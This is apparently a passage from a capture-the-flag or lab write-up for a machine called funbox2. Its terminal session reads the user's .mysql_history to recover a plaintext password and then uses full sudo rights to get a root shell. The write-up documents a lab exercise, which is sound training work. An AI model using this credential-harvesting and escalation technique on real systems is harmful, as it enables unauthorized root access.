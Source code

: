 ### priviledge escalation

#### mysql_history

```bash
tom@funbox2:/$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

tom@funbox2:~$ ls -al
total 48
drwxr-xr-x 5 tom  tom  4096 Nov 16 13:27 .
drwxr-xr-x 3 root root 4096 Jul 25  2020 ..
-rw------- 1 tom  tom   165 Nov 16 13:27 .bash_history
-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc
drwx------ 2 tom  tom  4096 Jul 25  2020 .cache
drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg
-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
-rw------- 1 tom  tom    12 Nov 16 13:27 .python_history
drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh
-rw-r--r-- 1 tom  tom     0 Jul 25  2020 .sudo_as_admin_successful
-rw------- 1 tom  tom   648 Nov 16 13:27 .viminfo

tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit

tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
tom@funbox2:~$ sudo -s
root@funbox2:~# 

```
